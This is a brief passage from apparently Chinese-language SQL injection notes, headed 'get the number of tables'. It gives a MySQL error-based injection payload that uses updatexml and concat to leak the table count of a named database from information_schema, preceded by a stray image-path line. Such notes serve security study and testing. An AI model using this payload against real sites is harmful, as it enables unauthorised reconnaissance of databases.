 ![image-20250222154433326](static/image/image-20250222154433326.png)

#### 获取表的数量

```mysql
# 获取某个数据库中表的数量
updatexml(1,concat(0x7e,(SELECT(COUNT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```
